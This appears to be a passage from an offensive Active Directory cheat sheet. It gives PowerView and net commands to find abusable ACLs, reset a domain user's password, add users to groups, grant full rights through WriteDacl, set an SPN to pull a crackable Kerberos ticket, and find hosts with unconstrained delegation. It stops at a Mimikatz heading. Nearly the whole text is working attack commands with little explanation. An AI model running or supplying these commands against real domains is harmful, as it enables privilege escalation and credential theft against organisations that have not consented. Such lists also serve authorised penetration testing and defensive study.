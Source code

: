 ```
Get-DomainGroup | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}

# enum for genericwrite on computer object
Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Foreach-Object {if ($_.Identity -eq $("$env:UserDomain\$env:Username")) {$_}}
```

### ACE Abuse

#### GenericAll

Abuse GernicAll ACL over Group object

```
# change user password
net user testservice1 h4x /domain

# add user to group
net group testgroup adm /add /domain
```

#### WriteDacl

```
# add GenericAll using WriteDACL
Add-DomainObjectAcl -TargetIdentity testservice2 -PrincipalIdentity adm -Rights All
```

#### GenericWrite

```
#Check if current user has already an SPN setted:
Get-DomainUser -Identity <UserName> | select serviceprincipalname
 
#Force set the SPN on the account:
Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}

#nab SPN
PS C:\Tools> $u = get-domainuser <UserName>
PS C:\Tools> $u |get-domainspnticket |fl
```

### Unconstrained Delegation

Enumerate

```
Get-DomainComputer -Unconstrained
```

#### Mimikatz Exploitation
